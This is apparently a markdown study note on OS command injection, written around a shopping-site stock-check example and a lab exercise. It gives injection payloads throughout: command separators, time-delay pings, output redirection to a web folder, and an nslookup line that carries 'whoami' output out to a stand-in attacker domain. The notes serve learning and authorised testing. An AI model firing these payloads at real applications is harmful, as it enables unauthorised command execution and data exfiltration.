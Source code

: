 ### Try to inject commands instead of any input e.g. instead of `storeId` or `productId`
In this example, a shopping application lets the user view whether an item is in stock in a particular store with the following endpoint:
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```
To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:
```
stockreport.pl 381 29
```
Instead of `productID` we can submit `& echo aiwefwlguh &` which will change the command to:
```
stockreport.pl & echo aiwefwlguh & 29
```

### Useful commands
| Purpose of command    | Linux         | Windows           | 
| --------------------- | ------------- | ----------------- | 
| Name of current user  | whoami        | whoami            | 
| Operating system      | uname -a      | ver               | 
| Network configuration | ifconfig      | ipconfig /all     |   
| Network connections   | netstat -an   | netstat -an       | 
| Running processes     | ps -ef        | tasklist          |


### Detecting blind OS command injection using time delays
```
& ping -c 10 127.0.0.1 &
```
This command causes the application to ping its loopback network adapter for 10 seconds. 

#### Lab:
Modify the email parameter, changing it to:
```
email=x||ping+-c+10+127.0.0.1||
```

### Exploiting blind OS command injection by redirecting output
```
& whoami > /var/www/static/whoami.txt &
```
You can then use the browser to fetch https://vulnerable-website.com/whoami.txt to retrieve the file

### Blind OS command injection using out-of-band (OAST) techniques
```
& nslookup kgji2ohoyw.web-attacker.com &
```
This payload uses the nslookup command to cause a DNS lookup for the specified domain

The out-of-band channel provides an easy way to exfiltrate the output from injected commands: 
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```
This causes a DNS lookup to the attacker's domain containing the result of the `whoami` command: 
```
wwwuser.kgji2ohoyw.web-attacker.com
```

### Ways of injecting OS commands
The following command separators work on both Windows and Unix-based systems:
- &
- &&
- |
- ||
The following command separators work only on Unix-based systems: 
- ;
- Newline (0x0a or \n) 

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:
- ` injected command `
- $( injected command )

The different shell metacharacters have subtly different behaviors that might change whether they work in certain situations. This could impact whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 

